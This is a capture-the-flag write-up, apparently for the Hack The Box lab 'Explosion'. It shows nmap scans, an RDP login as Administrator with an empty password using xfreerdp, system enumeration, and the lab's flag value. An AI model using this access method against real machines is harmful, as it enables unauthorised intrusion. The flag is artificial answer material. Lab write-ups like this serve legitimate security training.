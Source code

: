 # Explosion
Use ***ping*** to check if the host is up.
```console
kali@kali:~$ ping 10.129.101.245 -c 1
PING 10.129.101.245 (10.129.101.245) 56(84) bytes of data.
64 bytes from 10.129.101.245: icmp_seq=1 ttl=127 time=13.3 ms

--- 10.129.101.245 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 13.279/13.279/13.279/0.000 ms
```

Run an ***nmap*** scan on the top 1000 ports.
```console
kali@kali:~$ nmap -A 10.129.101.245
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 03:46 EST
Nmap scan report for 10.129.101.245
Host is up (0.014s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-30T08:46:31+00:00
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-29T08:38:34
|_Not valid after:  2023-05-31T08:38:34
|_ssl-date: 2022-11-30T08:46:39+00:00; +2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Run a concurrent nmap scan on all ports.
```console
kali@kali:~$ nmap -A 10.129.101.245 -p-
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-30 03:46 EST
Nmap scan report for 10.129.101.245
Host is up (0.028s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=Explosion
| Not valid before: 2022-11-29T08:38:34
|_Not valid after:  2023-05-31T08:38:34
| rdp-ntlm-info: 
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-30T08:48:28+00:00
|_ssl-date: 2022-11-30T08:48:36+00:00; +3s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2s, deviation: 0s, median: 1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-30T08:48:31
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.28 seconds
```

Connect to the "Explosion" domain on the host via ***RDP*** as "Administrator" without a password using ***xfreerdp.***
```console
kali@kali:~$ xfreerdp /u:"Administrator" /d:"Explosion" /v:10.129.101.245:3389 
[05:11:28:241] [24848:24849] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[05:11:28:242] [24848:24849] [WARN][com.freerdp.crypto] - CN = Explosion
Password: 
[05:11:31:654] [24848:24849] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[05:11:31:654] [24848:24849] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[05:11:31:701] [24848:24849] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[05:11:31:702] [24848:24849] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
...
```

It works. We found the flag. Let's keep going and probe around a bit.

![image](https://user-images.githubusercontent.com/114029528/204775880-f1405604-756c-4745-a1d3-bfa7b8e6a2de.png)

Open a command prompt using the FreeRDP interface.

![image](https://user-images.githubusercontent.com/114029528/204775974-88768dd0-632d-406a-a8c3-277ca623c3a3.png)


Display the group and user.
```bat
C:\Users\Administrator>whoami
explosion\administrator
```
Collect system information to learn more about our environment.
```bat
C:\Users\Administrator>systeminfo
Host Name:                 EXPLOSION
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Domain:                    HACKTHEBOX
Logon Server:              \\EXPLOSION
DHCP Enabled:    Yes
DHCP Server:     10.129.0.1
IP address(es)
[01]: 10.129.101.245
```

Navigate to the desktop directory.
```bat
C:\Users\Administrator>cd Desktop
```


Display the contents of the desktop directory.
```bat
C:\Users\Administrator\Desktop>dir
04/20/2021  08:27 PM    <DIR>          .
04/20/2021  08:27 PM    <DIR>          ..
04/23/2021  01:51 AM                34 flag.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,337,020,928 bytes free
```


Display the flag contents.
```bat
C:\Users\Administrator\Desktop>type flag.txt
951fa96d7830c451b536be5a6be008a0
```
